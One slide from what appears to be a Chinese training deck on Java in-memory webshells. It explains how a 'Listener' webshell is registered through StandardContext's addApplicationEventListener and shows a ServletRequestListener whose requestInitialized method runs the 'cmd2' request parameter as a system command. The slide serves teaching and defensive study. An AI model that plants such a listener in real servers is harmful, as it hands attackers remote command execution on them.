

# 基本概念
Listener马：
原理和刚才讲的Filter马是一样的，都是需要先得到StandardContext类，然后在通过addApplicationEventListener方法将定义好的带有恶意代码的listener类进行添加。
代码如下：
//定义监听器：
class S implements ServletRequestListener{
    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        if(request.getParameter("cmd2") != null){
            try {
                Runtime.getRuntime().exec(request.getParameter("cmd2"));
            } catch (IOException e) {}
        }
    }
}

35